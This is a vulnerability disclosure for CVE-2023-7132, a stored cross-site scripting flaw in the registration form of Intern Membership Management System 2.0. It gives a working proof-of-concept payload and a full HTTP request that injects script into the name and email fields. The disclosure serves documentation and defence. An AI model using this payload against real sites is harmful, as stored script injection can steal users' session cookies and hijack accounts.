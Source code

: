 # CVE-2023-7132_Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Exploit Title:** CVE-2023-7132_Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-2023-7132

## References: 
+ **CVE-2023-7132:** https://vuldb.com/?id.249135
+ https://www.cve.org/CVERecord?id=CVE-2023-7132
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7132
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7132

## Description:
Intern Membership Management System 2.0 allows Stored Cross-site Scripting via parameters 'userName', 'firstName', 'lastName', and 'userEmail' in "/intern/user_registration/". Intern Membership Management System is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Use this payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`
+ Fill 'userName','firstName', 'lastName', '' and 'userEmail' parameters on the form and click 'Register' button.
+ The Stored XSS will be triggered.
+ Alerts will pop-up permanently.
+ Example request for 'userName', 'firstName', 'lastName', and 'userEmail' parameters:
```
POST /intern/user_registration/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://localhost
Connection: close
Referer: http://localhost/intern/user_registration/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

userName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&firstName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&lastName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&password=&confirm_password=&userEmail=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&gender=Male&terms=on&register-user=Register
```

+ Example payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`

![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8c711e71-94df-48eb-98af-9b16fbbecd31)
<br>
<br>
![2_xss](https://github.com/h4md153v63n/CVEs/assets/5091265/1a45f2d0-4bfa-4a20-9b7e-59f8d6aba24d)
<br>
<br>
![2_xss-2](https://github.com/h4md153v63n/CVEs/assets/5091265/337eeddd-d66f-4dd9-8887-923637a2b680)
